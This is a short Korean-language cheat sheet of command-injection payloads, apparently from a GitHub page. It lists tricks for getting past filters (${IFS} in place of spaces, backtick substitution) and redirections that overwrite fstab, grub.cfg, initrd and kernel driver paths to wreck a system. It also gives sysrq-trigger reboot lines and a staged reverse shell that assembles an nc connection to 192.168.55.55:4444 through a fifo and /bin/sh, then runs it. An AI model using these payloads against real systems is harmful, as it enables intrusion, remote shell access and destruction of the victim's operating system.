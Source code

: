 # COMMAND INJECTION
공백 우회  
|/usr/bin/touch${IFS}/opt/test_injection  
---------------------------------------------------
and, or ,; 우회  
`id>/opt/test_injection`  
--------------------------------------
라다이렉션만을 이용하여 시스템 파괴  
id>/lib/modules/*/kernel/drivers/usb/storage  
id>/etc/fstab  
id>/etc/mtab  
id>/etc/inittab  
id>/boot/grub/grub.cfg  
id>/boot/initrd.img-$(uname -r)  
id>/etc/systemd/  
echo 'b'>/proc/sysrq-trigger  
<<<b>/proc/sysrq-trigger  
root일 경우만 덮어씌울수있음.  
--------------------------------------------
;sleep 5 # 해당 명령어가 먹힐 경우 리버스tcp 가능
;mkfifo${IFS}/opt/f;  
;printf${IFS}'nc\x20192.168.55.55\x204444'>/opt/b;  
;printf${IFS}'\x20</opt/f\x7Cbin/sh>/opt/f'>/opt/c;  
;cat${IFS}/opt/b${IFS}/opt/c>/opt/t;  
;chmod${IFS}777${IFS}/opt/t;  
;./opt/t;  

